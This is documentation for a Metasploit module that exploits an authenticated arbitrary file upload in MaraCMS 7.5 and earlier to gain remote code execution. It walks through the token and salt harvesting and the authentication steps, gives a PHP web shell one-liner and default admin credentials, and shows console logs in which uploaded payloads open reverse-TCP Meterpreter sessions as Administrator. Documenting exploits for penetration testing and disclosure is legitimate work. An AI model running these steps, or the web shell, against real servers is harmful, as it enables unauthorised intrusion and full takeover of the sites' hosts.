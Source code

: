 ## Vulnerable Application
This module exploits an arbitrary file upload vulnerability in MaraCMS 7.5 and prior in order to execute arbitrary commands.

The module first tries to obtain the MaraCMS version from `/about.php` (for MaraCMS 7.5, the version number mentioned is `7.2`.)
The module then visits `/?login` to obtain the `shash` token, which is required for authentication. Next,
the module sends an HTTP POST request to `codebase/handler.php` in order to obtain the salt used by MaraCMS to create password hashes.
The module then uses the `shash` token and the salt to create the required authentication hashes,
and sends these via a second HTTP POST request to the handler.

If authentication is successful, the module tries to upload a malicious PHP file to the web root,
again via an HTTP POST request to `codebase/handler.php.`
If the `php` target is selected, the payload is embedded in the uploaded file
and the module attempts to execute the payload via an HTTP GET request to this file.
For the `linux` and `windows` targets, the module uploads a simple PHP web shell similar to `<?php system($_GET["cmd"]); ?>`.
Subsequently, it leverages the CmdStager mixin to deliver the final payload via a series of HTTP GET requests
in the form of `/<php_web_shell>?<cmd>=<payload>`.

Valid credentials for a MaraCMS `admin` or `manager` account are required.
This module has been successfully tested against MaraCMS 7.5 running on Windows Server 2012 (XAMPP server).

Vulnerable software for testing can be downloaded [here](https://sourceforge.net/projects/maracms/).
Installation is just a matter of unzipping the package to a php-capable webhost.
The requirements specified on SourceForge are an Apache or equivalent webserver (LightTPD, Nginx, etc.)
and a PHP version from 5.3 to 7.1.1. Both of these requirements can easily be fulfilled by downloading
an older version of XAMPP server for Windows or Linux from [here](https://sourceforge.net/projects/xampp/).
MaraCMS does not require a database, nor an installation script.

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/multi/http/maracms_upload_exec`
4. Do: `set RHOSTS [IP]`
5. Do: `set USERNAME [username for the MaraCMS account]`
6. Do: `set PASSWORD [password for the MaraCMS account]`
7. Do: `set target [target]`
8. Do: `set payload [payload]`
9. Do: `set LHOST [IP]`
10. Do: `exploit`

## Options
### PASSWORD
The password for the MaraCMS account to authenticate with. The default value is `changeme`,
as this is the default admin password for MaraCMS.
### TARGETURI
The base path to MaraCMS. The default value is `/`.
### USERNAME
The username for the MaraCMS account to authenticate with. The default value is `admin`.

## Targets
```
Id  Name
--  ----
0   PHP
1   Linux
2   Windows
```

## Scenarios
### MaraCMS 7.5 running on Windows Server 2012 (XAMPP server) - PHP target
```
msf5 exploit(multi/http/maracms_upload_exec) > show options

Module options (exploit/multi/http/maracms_upload_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   changeme         yes       Password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.20     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to MaraCMS
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   admin            yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  1192.168.1.12    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP


msf5 exploit(multi/http/maracms_upload_exec) > run

[*] Started reverse TCP handler on 192.168.1.12 :4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Target is most likely MaraCMS with version 7.5 or lower
[*] Obtained salt `9781` from server. Using salt to authenticate...
[+] Successfully authenticated to MaraCMS
[*] Uploading payload as zKEdBPw5j.php...
[+] Successfully uploaded zKEdBPw5j.php
[*] Executing the payload...
[*] Sending stage (38288 bytes) to 192.168.1.20 
[*] Meterpreter session 15 opened (192.168.1.12 :4444 -> 192.168.1.20 :49324) at 2020-09-22 15:30:14 -0400

meterpreter > 
[!] Deleting: zKEdBPw5j.php
[+] zKEdBPw5j.php removed
getuid
Server username: Administrator (0)
meterpreter >
```
### MaraCMS 7.5 running on Windows Server 2012 (XAMPP server) - Windows target
```
msf5 exploit(multi/http/maracms_upload_exec) > run

[*] Started reverse TCP handler on 1192.168.1.12:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Target is most likely MaraCMS with version 7.5 or lower
[*] Obtained salt `6521` from server. Using salt to authenticate...
[+] Successfully authenticated to MaraCMS
[*] Uploading payload as gCUII0Fx41Q.php...
[+] Successfully uploaded gCUII0Fx41Q.php
[*] Executing the payload via a series of HTTP GET requests to `/gCUII0Fx41Q.php?1xFqv=<command>`
[*] Command Stager progress -  17.01% done (2046/12025 bytes)
[*] Command Stager progress -  34.03% done (4092/12025 bytes)
[*] Command Stager progress -  51.04% done (6138/12025 bytes)
[*] Command Stager progress -  68.06% done (8184/12025 bytes)
[*] Command Stager progress -  84.24% done (10130/12025 bytes)
[*] Sending stage (201283 bytes) to 192.168.1.20
[*] Meterpreter session 14 opened (1192.168.1.12:4444 -> 192.168.1.20:49323) at 2020-09-22 15:30:05 -0400
[*] Command Stager progress - 100.00% done (12025/12025 bytes)

meterpreter > 
[!] Deleting: gCUII0Fx41Q.php
[+] gCUII0Fx41Q.php removed
getuid
Server username: WIN-S417DG9MRTR\Administrator
meterpreter >
```
